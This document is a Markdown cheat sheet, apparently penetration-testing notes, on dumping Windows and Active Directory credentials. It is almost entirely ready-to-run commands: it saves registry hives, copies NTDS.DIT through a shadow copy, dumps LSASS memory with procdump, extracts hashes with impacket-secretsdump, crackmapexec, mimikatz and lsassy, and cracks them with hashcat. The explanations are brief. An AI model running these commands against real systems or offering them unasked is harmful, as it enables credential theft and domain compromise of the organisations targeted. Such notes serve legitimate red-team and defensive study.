 # Credentials Dumping
Requirements:
* Probably need administrator or SYSTEM or debug privileges

## SYSTEM - Keys
Required SYSTEM hive to decrypt other useful hives.

`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

## NTDS.DIT - All domain account hashes & kerberos keys
The AD database is saved in a file on every DC in the domain. The AD database is stored in the NTDS.DIT file located in the NTDS folder of the system root. On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).

```
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<SHADOW_ID>
```
`impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --ntds`

mimikatz # `lsadump::dcsync \all`

## SAM - Local account hashes
Windows stores and manages the local user and group accounts in a database file called Security Account Manager (SAM). It  authenticates local user logons. On a domain controller, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`
`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`

mimikatz # `token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>`
mimikatz # `token::elevate lsadump::sam`

## SECURITY - Cached domain account hashes & LSA secrets
Each time a user logs on to a domain, Windows caches the credentials supplied and stores them in the security hive in the registry of the operation system. With cached credentials, the user can log on to a domain member without being connected to a domain controller within that domain. Mscash is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Isnot saved on a DC.

The LSA secrets, which are secret pieces of data that are accessible only to SYSTEM account processes, are stored (in some circumstances) on the hard disk drive. Some of these secrets are credentials that must persist after reboot. Credentials stored as LSA secrets might include:
* Account password for the computer's Active Directory Domain Services (AD DS) account
* Account passwords for Windows services that are configured on the computer
* Account passwords for configured scheduled tasks
* Account passwords for IIS application pools and websites
* Passwords for Microsoft accounts

`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`
`impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`

mimikatz # `token::elevate lsadump::cache`

mimikatz # `token::elevate lsadump::lsa /inject` **? LOCAL ACCOUNTS?!**

## LSASS.exe process - active domain account hashes & tickets
The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalfs of users with active Windows sessions. LSASS can store credentials in multiple forms, including: 
* reversibly encrypted plaintext
* kerberos tickets (ticket-granting tickets (TGTs), service tickets)
* NT hash and LM hash

Tools for remote dumping creds needs port 139 or 445 to be open for SMB:
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

Local dumping:
`procdump -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp`
mimikatz # `sekurlsa::minidump <DUMPFILE>`
mimikatz # `sekurlsa::logonPasswords`







https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication


`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`
`hashcat -m 2100 <HASH> <PASSLIST> --potfile-disable`


`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`